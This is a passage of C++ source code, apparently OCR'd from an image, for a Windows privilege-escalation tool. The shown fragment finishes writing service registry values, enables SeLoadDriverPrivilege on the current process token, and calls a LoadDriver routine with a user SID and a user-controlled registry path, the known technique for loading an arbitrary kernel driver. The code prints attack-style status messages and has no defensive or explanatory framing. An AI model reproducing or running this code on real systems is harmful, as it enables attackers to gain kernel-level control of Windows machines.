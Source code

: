 ```cpp
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"ErrorControl", 0, REG_DWORD, (const BYTE *)&dwServiceErrorControl, sizeof(DWORD));
  if (dwErrorCode) {
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"Start", 0, REG_DWORD, (const BYTE *)&dwServiceStart, sizeof(DWORD));
  RegCloseKey(hKey);
  return 0;
}

int main() {
  HANDLE hToken;
  ULONG dwErrorCode;

  // Make Registry Keys
  dwErrorCode = CreateRegistryKey(REG_PATH, SYS_PATH);
  if (dwErrorCode != 0) {
    wprintf(L"[-] Error while creating registry keys: error value %d\n", dwErrorCode);
    goto cleanup;
  }

  // Get Current Process Token
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
    wprintf(L"[-] OpenProcessToken Failed\n");
    goto cleanup;
  }

  // Enable Privileges
  wprintf(L"[*] Enabling SeLoadDriverPrivilege\n");
  if (SetPrivilege(hToken, SE_LOAD_DRIVER_NAME, true)) {
    wprintf(L"[+] SeLoadDriverPrivilege Enabled\n");
  } else {
    wprintf(L"[-] SeLoadDriverPrivilege Failed\n");
    goto cleanup;
  }
  LoadDriver(USER_SID, REG_PATH);

cleanup:
  CloseHandle(hToken);
  hToken = NULL;
  return 0;
}
```
